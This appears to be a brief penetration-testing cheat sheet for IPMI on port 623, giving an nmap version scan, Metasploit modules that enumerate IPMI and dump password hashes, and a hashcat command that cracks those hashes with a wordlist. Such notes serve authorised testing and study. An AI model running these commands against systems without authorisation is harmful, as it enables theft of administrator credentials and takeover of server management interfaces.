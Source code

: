 # Nmap

```bash
sudo nmap -sU --script ipmi-version -p 623 $IP
```

# Metasploit

```bash
use auxiliary/scanner/ipmi/ipmi_version
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

# Hashcat

```bash
hashcat -m 7300 hash.txt /usr/share/wordlists/rockyou.txt
```
